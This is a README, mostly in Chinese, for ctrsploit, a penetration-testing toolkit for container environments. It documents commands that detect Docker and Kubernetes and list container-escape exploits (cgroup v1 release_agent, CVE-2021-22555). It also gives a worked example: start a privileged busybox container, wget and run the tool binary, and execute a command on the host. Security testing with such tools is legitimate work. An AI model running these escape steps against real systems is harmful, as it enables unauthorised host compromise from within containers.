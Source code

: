 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

## Pre-Built Release

https://github.com/ssst0n3/ctrsploit/releases

## Usage

### Quick-Start

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where/README.md) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver/README.md) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups/README.md) | c | gather cgroup information |
| [capability](./env/capability/README.md) | cap | show the capability of pid 1 and current process |
| seccomp | s | show the seccomp info |
| apparmor | a | show the apparmor info |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent/README.md) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555](./exploit/CVE-2021-22555/README.md) | 22555 | escape tech by using the CVE-2021-22555 |

### Help

```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

## Todo List

参见 [FEATURES.md](./FEATURES.md)
